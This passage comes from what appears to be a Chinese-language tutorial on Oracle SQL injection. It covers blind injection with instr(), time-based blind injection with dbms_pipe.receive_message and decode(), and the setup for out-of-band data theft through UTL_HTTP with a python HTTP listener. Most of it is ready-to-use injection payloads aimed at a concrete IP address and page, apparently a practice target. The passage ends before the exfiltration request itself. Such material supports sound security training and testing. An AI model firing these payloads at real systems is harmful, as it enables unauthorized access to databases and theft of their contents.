 ```
select instr('abcdefgh','de') position from dual;
#返回结果：4
```
盲注中的应用：
```
http://219.153.49.228:44768/new_list.php?id=1 and 1=(instr((select user from dual),'SYS')) --
?id=1 and 4=(instr((select user from dual),'T')) --
```
# 0x06 延时盲注
## 1、检测漏洞存在
DBMS_PIPE.RECEIVE_MESSAGE函数的作用是从指定管道获取消息。
具体用法为：**DBMS_PIPE.RECEIVE_MESSAGE('pipename',timeout)**
**pipename**为varchar(128)的字符串，用以指定管道名称，在这里我们输入任意值即可。
**timeout**为integer的可选输入参数，用来指定等待时间。
常用payload如下：
```
http://219.153.49.228:44768/new_list.php?id=1 and 1=dbms_pipe.receive_message('o', 10)--
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627365780661-fefb7bcc-e426-4014-8c09-9803fbb76335.png#align=left&display=inline&height=421&margin=%5Bobject%2Object%5D&name=image.png&originHeight=842&originWidth=2528&size=312249&status=done&style=none&width=1264)
如果页面延时10秒返回，即存在注入。
## 2、配合decode函数延时盲注
只需要将延时语句放入decode函数中即可
```
#直接猜解字符
?id=1 and 1=(select decode(substr(user,1,1),'S',dbms_pipe.receive_message('o',5),0) from dual) --

#通过ascii猜解字符
?id=1 and 1=(select decode(ascii(substr(user,1,1)),'83',dbms_pipe.receive_message('o',5),0) from dual) --
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627366016814-7d8cdee4-c932-4907-87e0-017ae7f6296f.png#align=left&display=inline&height=506&margin=%5Bobject%2Object%5D&name=image.png&originHeight=1012&originWidth=2146&size=293305&status=done&style=none&width=1073)
## 3、使用其他延时查询来判断
如(select count(*) from all_objects) ，因为查询结果需要一定的时间，在无法使用dbms_pipe.receive_message()函数的情况下可以使用这个。具体操作只需要将decode()函数的返回结果进行替换即可。
```
#直接猜解字符
?id=1 and 1=(select decode(substr(user,1,1),'S',(select count(*) from all_objects),0) from dual) --

#通过ascii猜解字符
?id=1 and 1=(select decode(ascii(substr(user,1,1)),'83',(select count(*) from all_objects),0) from dual) --
```
# 0x07 外带数据注入
## 1、url_http.request()
使用此方法，用户需要有utl_http访问网络的权限
首先检测是否支持，页面返回正常则表示支持
```
?id=1 and exists (select count(*) from all_objects where object_name='UTL_HTTP') --
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627464342525-e4cd81f2-77a8-4a90-ace7-36aa714ccdaa.png#align=left&display=inline&height=369&margin=%5Bobject%2Object%5D&name=image.png&originHeight=738&originWidth=1854&size=42432&status=done&style=none&width=927)
然后python起一个http服务，或者开启nc监听。这里我使用python开启一个服务：
```
python3 -m http.server 4455
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627464776325-cd84daca-3f18-48a5-86a3-9a92df1fdd05.png#align=left&display=inline&height=145&margin=%5Bobject%2Object%5D&name=image.png&originHeight=290&originWidth=1144&size=47561&status=done&style=none&width=572)
```
```